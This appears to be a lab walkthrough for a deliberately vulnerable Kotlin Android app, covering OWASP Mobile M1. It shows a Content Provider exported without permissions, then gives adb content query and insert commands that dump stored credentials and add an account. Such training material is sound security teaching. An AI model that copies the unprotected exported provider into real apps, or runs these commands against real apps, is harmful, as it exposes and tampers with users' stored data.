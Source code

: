 M1: Improper Platform Usage
===========================
From the [Android documentation] [1]: "Content providers are one of the primary building blocks of Android applications, providing content to applications". Content providers are mostly used to share data between Android applications. Such as Activities, Services or Receivers, Content providers can have weak permissions or can be exported for all the apps on the device. Such misconfiguration can lead the Android app to leak the data used by the Content provider.

When the Content provider is exported, all the apps can query the Content provider to retrieve or modify the data. On the kotlin-goat app, we can identifiy that a Content provider is defined with the name ".AccountProvider" and the exported tag is set to true. Here is an extract of the AndroidManifest file:
```
<provider
            android:name=".AccountProvider"
            android:authorities="com.cx.vulnerablekotlinapp.accounts"
            android:enabled="true"
            android:exported="true" />
```

Looking at the code on the AccountProvider.kt class, we can retrieve the Content URI:
```
companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
        private val ACCOUNTS_TABLE = "Accounts"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Then, using the adb tool, we can query this provider and even insert data. Here is simple example allowing to query the provider in order to retrieve the accounts stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin

```
We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the kotlin-goat app:
```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

More information about how to test improper platform usage can be found on the OWASP Mobile Testing Guide and especially on the [Testing Platorm Interaction] [2] section.

## Resources

### Tools

* adb

### Readings

* [Android documentation][1]
* [Testing Platform Interaction][2]

[1]: https://developer.android.com/reference/android/content/ContentProvider
[2]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md